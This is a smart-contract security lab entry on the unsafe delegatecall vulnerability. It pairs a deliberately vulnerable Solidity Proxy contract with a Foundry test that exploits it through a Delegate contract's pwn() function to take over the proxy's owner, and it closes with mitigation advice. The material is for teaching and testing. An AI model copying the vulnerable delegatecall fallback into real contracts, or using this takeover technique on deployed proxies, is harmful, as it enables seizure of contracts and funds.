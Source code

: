 # Unsafe Delegatecall
[Delegatecall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Delegatecall.sol)  
**Name:** Unsafe Delegatecall Vulnerability

**Description:**  
The Proxy Contract Owner Manipulation Vulnerability is a flaw in the smart contract design that
allows an attacker to manipulate the owner of the Proxy contract, which is hardcoded as 0xdeadbeef.
The vulnerability arises due to the use of delegatecall in the fallback function of the Proxy contract.
delegatecall allows an attacker to invoke the pwn() function from the Delegate contract within the context of the Proxy contract, thereby changing the value of the owner state variable of the Proxy contract.
This allows a smart contract to dynamically load code from a different address at runtime.

**Scenario:**  
Proxy Contract is designed for helping users call logic contract
Proxy Contract's owner is hardcoded as 0xdeadbeef
Can you manipulate Proxy Contract's owner ?

**Mitigation:**  
To mitigate the Proxy Contract Owner Manipulation Vulnerability,
avoid using delegatecall unless it is explicitly required, and ensure that the delegatecall is used securely.
If the delegatecall is necessary for the contract's functionality, make sure to validate and
sanitize inputs to avoid unexpected behaviors.

**Proxy Contract:**  
```
contract Proxy {
    address public owner = address(0xdeadbeef); // slot0
    Delegate delegate;

    constructor(address _delegateAddress) public {
        delegate = Delegate(_delegateAddress);
    }

    fallback() external {
        (bool suc, ) = address(delegate).delegatecall(msg.data); // vulnerable
        require(suc, "Delegatecall failed");
    }
}
```
**How to Test:**

forge test --contracts src/test/Delegatecall.sol-vvvv  
```
// Test function for a scenario where delegatecall is used.
function testDelegatecall() public {
    // Initialize a new Delegate contract, which is the "logic contract".
    DelegateContract = new Delegate(); 
    // Initialize a new Proxy contract, passing the address of the Delegate contract to its constructor. This is the "proxy contract".
    proxy = new Proxy(address(DelegateContract)); 

    // Log Alice's address.
    console.log("Alice address", alice);
    // Log the owner of the Proxy contract.
    console.log("DelegationContract owner", proxy.owner());

    // Log the start of the operation to change the owner of the Proxy contract.
    console.log("Change DelegationContract owner to Alice...");
    // Set the message sender to Alice.
    vm.prank(alice);
    // Call the pwn function of the Delegate contract through a delegatecall. This is the exploit.
    address(proxy).call(abi.encodeWithSignature("pwn()")); 
    // Proxy.fallback() will delegatecall Delegate.pwn(), making Alice the owner of the Proxy contract.

    // Log the new owner of the Proxy contract.
    console.log("DelegationContract owner", proxy.owner());
    // Log the completion of the exploit.
    console.log(
        "Exploit completed, proxy contract storage has been manipulated"
    );
}

// The Delegate contract, which contains the code that can be called via delegatecall.
contract Delegate {
    // The owner of the contract.
    address public owner; // slot0

    // The pwn function, which sets the owner of the contract to the message sender.
    function pwn() public {
        owner = msg.sender;
    }
}
``` 
Red box: exploited successful, owner changed.
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F3d7b2665-e934-4b5a-b9ec-1302656f7da8%2FUntitled.png?table=block&id=6be82235-a425-44a7-9174-c6bfb0e027ec&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
